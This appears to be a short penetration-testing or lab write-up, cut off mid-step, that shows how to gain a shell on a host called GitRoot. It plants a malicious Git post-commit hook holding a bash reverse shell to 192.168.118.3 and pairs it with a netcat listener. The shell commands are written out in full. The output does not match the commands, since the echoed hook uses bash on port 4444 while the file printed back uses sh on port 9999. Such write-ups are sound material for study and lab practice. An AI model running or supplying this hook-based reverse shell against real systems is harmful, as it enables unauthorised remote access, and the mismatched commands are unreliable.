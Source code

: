 
# Guide

1. If a Git user is found and Git is installed, try `git log -p`
# Exploiting Post-Commit

1. Create a post-commit file with a bash reverse shell

```
beth@GitRoot:~$ cd ~
beth@GitRoot:~$ mkdir -p .git/hooks && cd .git/hooks
beth@GitRoot:~/.git/hooks$ echo '#!/bin/bash' > post-commit
beth@GitRoot:~/.git/hooks$ echo '/usr/bin/bash -i >& /dev/tcp/192.168.118.3/4444 0>&1' >> post-commit
beth@GitRoot:~/.git/hooks$ cat post-commit
#!/bin/sh
/usr/bin/sh -i >& /dev/tcp/192.168.118.3/9999 0>&1
beth@GitRoot:~/.git/hooks$ chmod 777 post-commit
beth@GitRoot:~/.git/hooks$
```
2. Start a netcat listener on port 4444. 
3. Compress the .git/ contents into a zip file as requested and copy it to the directory which is being uncompressed and committed:
